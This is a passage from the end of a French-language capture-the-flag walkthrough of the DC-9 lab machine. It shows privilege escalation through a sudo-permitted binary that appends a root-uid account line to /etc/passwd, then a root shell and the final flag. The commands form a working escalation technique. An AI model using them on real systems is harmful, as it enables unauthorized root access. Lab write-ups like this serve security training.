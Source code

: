 ```console
```

Reste à savoir s'il ajoute seulement sans écraser le contenu.

```console
fredf@dc-9:~$ echo this is dope > yolo
fredf@dc-9:~$ /opt/devstuff/dist/test/test yolo append
fredf@dc-9:~$ cat append 
test
this is dope
```

C'est bien le cas. Je vais en profiter pour rajouter une ligne au fichier `/etc/passwd` :

```console
fredf@dc-9:~$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh > yolo
fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test yolo /etc/passwd
fredf@dc-9:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
theflag.txt
# cat theflag.txt


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```
